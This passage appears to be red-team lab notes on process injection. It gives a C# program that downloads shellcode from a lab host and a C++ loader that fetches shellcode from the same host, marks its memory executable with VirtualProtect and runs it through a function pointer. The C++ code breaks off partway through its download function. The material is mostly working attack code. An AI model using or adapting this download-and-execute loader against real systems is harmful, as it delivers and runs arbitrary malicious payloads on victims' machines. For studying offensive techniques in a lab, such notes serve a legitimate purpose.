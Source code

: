 ```
```

## Process Injection

do _Payloads > Windows Stageless Generate All Payloads_ then we will host both the raw payloads for the http listener that use ExitProcess and ExitThread.

Download files CSharp:

```
using System;
using System.Net.Http;
using System.Threading.Tasks;

namespace InfinityBankShellcodeDownloader
{
    class Program
    {
        static async Task Main(string[] args)
        {
            byte[] shellcode;

            using (var client = new HttpClient())
            {
                client.BaseAddress = new Uri("https://www.infinity-bank.com");
                shellcode = await client.GetByteArrayAsync("/shellcode.bin");
            }

            Console.WriteLine("Shellcode downloaded successfully.");
            Console.WriteLine("Press any key to exit.");
            Console.ReadKey();
        }
    }
}
```

C++ downloading and executing with function delegate

```
#include <Windows.h>
#include <winhttp.h>
#include <iostream>
#include <vector>

#pragma comment(lib, "winhttp.lib")

std::vector<BYTE> Download(LPCWSTR baseAddress, LPCWSTR filename);

int main()
{
    std::vector<BYTE> shellcode = Download(L"www.infinity-bank.com\0", L"/shellcode.bin\0");

    //get point to buffer
    LPVOID ptr = &shellcode[0];

    //set memory to RWX
    DWORD oldProtect = 0;
    VirtualProtect(ptr, shellcode.size(), PAGE_EXECUTE_READWRITE, &oldProtect);

    (*(void(*)()) ptr)();
}

std::vector<BYTE> Download(LPCWSTR baseAddress, LPCWSTR filename) {

    // initialise session
```
